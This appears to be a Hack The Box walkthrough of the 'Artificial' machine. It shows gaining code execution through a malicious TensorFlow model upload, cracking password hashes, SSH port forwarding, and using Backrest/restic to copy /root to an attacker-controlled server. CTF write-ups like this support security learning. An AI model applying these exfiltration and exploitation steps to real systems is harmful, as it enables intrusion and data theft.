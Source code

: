 # Artificial -  Machine Walkthrough

![Machine banner on htb](../assets/images/artificial/machine%20banner.png)

## Introduction

"Artificial" is an easy-rated Linux machine that demonstrates the importance of not placing too much trust in your seemingly safe  AI models!

## Initial Enumeration

I started with a simple Nmap scan to discover open services on the target machine:

```bash
sudo nmap -sV -A 10.10.11.74
```

![Nmap scan](../assets/images/artificial/nmap.png)

The scan revealed two open ports:
- **Port 22/tcp**: SSH service running OpenSSH 8.2p1 Ubuntu
- **Port 80/tcp**: HTTP service running nginx 1.18.0

With limited attack surface, I focused on the web application running on port 80.

## Web Application Analysis

Before accessing the website, I added the target IP to my `/etc/hosts` file for proper domain resolution:

```bash
echo "10.10.11.74 artificial.htb" >> /etc/hosts
```

Navigating to `http://artificial.htb` revealed an AI model hosting platform with the tagline "Empowering AI for the Future."


The website presents itself as a platform where users can "Build, test, and deploy AI models effortlessly with Artificial." 

![exploring web interface](../assets/images/artificial/website.png)

## User Registration and Dashboard Access

I registered a new account using the registration functionality and upon
successful login, I was greeted with a dashboard showing:

![exploring /dashboard](../assets/images/artificial/dashboard.png)

The dashboard displayed:

- A "YOUR MODELS" section with the description "Upload, manage, and run your AI models here" alongside a file upload functionality and an "Upload Model" button for submitting files

- References to requirements and Dockerfile for building model environments

This functionality suggested that the platform allows users to upload and deploy custom AI models, potentially using Docker containers for isolation.

## Docker Container Analysis

![running dockerfile](../assets/images/artificial/runningdocker.png)
inside there was a tensorflow wheel file  (A .whl (wheel) file is a Python package distribution format. Think of it as a pre-compiled Python package that can be installed with pip) and thats what i did 

I started looking for CVEs and found this : https://github.com/Splinter0/tensorflow-rce alongside this article 


https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

which simply said that u have to edit one of your tensorflow model layers' (in this case the lambda layer) to get
well.. an rce , I apologize for my data science friends but

This demonstrates why AI/ML platforms must:
- Validate uploaded model files beyond simple extension checks
- Run model inference in sandboxed environments
- Implement proper input sanitization


I downloaded the files into the container and ran the exploit to get a .h5 file which i uploaded to the web interface 

![exploit](../assets/images/artificial/server.png)
![exploit](../assets/images/artificial/exploit.py.png)
![exploit h5](../assets/images/artificial/python.png)

i set up a listener and clicked on view predicitons to get my session 
![listener](../assets/images/artificial/listener.png)
![view predictions](../assets/images/artificial/uploadedModel.png)
and voilaa
![view predictions](../assets/images/artificial/gotAccess.png)

## User flag

I explored a tiny bit until i found an sqlite database with a gael user 

I got the hash then used hashcat to break it and log into the ssh session

![users.db](../assets/images/artificial/sqlie3.png)
![gael](../assets/images/artificial/gael.png)
and there was my user flag !
![user flag](../assets/images/artificial/userflag.png)

## Privilege Escalation and root

#### Port discovery 

I performed network enumeration to identify internal services :

![netstat](../assets/images/artificial/netstat.png)

The scan revealed an internal service running on port 9898.
#### Port Forwarding
I established SSH port forwarding to access the internal service:
 ```bash
ssh gael@artifical.htb -L 9898:127.0.0.1:9898
 ```
and then accessed it to get the following web interface 
![web interface backrest](../assets/images/artificial/backrest_server.png)

This is a backrest api 
#### pgBackRest is a backup and restore utility specifically for PostgreSQL databases. The fact that it's running with a web interface suggests:

#### There's a PostgreSQL database on this system
#### Automated backups are configured
#### There's likely sensitive data in the backups**

and I need creds to log in 

I looked around a bit and found this interesting .gz ,  
so I sent it to my host machine 
![looking for creds ](../assets/images/artificial/backup.gz.png)
after some digging I found a backrest_root username alongside with a password 
![username and password ](../assets/images/artificial/backrestcreds.png)
This is bcrypt password hashing, but with an additional Base64 encoding layer on top , the double encoding
is for json compatibility ,Bcrypt hashes contain special characters ($, /, +) that can cause issues in JSON
Base64 encoding ensures the hash is "JSON-safe" with only alphanumeric characters and prevents parsing errors or character encoding issues

```bash 
cat hash.txt| base64 -d                                   
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
and then
```bash 
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt   
```
i used the password and the backrest_root username to log into the dashboard via the previous port forwarding



![backrest_dashboard](../assets/images/artificial/backrest%20dashboard.png)
This is a backup management system that can create repositories and perform backups

refrencing this article : https://gtfobins-github-io.translate.goog/gtfobins/restic/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=fr&_x_tr_pto=wapp , and a couple of hints online later , i managed to get the root flag 

first , i set up a restic server on my machine 
```bash 
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```
This creates a backup server that accepts connections without authentication.

from the web interface , i created a repo and excuted ran these commands 

![backrest_dashboard](../assets/images/artificial/addrepo.png)
## Initialize a repository pointing to attacker's server
```bash
-r rest:http://my_ip_address:12345/myrepo init
```
## Backup the /root directory to the attacker's server
```bash
-r rest:http://my_ip_address:12345/myrepo backup /root
```
on gael's shell : 
## View the snapshots
```bash
restic -r /tmp/restic-data/myrepo snapshots
```
## Restore the backup to access root files
```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```
## Access root flag
```bash
cat /tmp/restic-data/myrepo/restore/root/root.txt
```
YOHO !!!
![pwned](../assets/images/artificial/pwned.png)


## Attack Chain Summary
1. **Initial Access**: Malicious TensorFlow model upload → RCE
2. **Lateral Movement**: Database credential extraction → SSH access  
3. **Privilege Escalation**: BackRest backup system abuse → Root access


## Conclusion
This machine highlights the importance of treating AI model uploads with the same security rigor as any other user-generated content, implementing proper sandboxing, and following the principle of least privilege for backup systems.













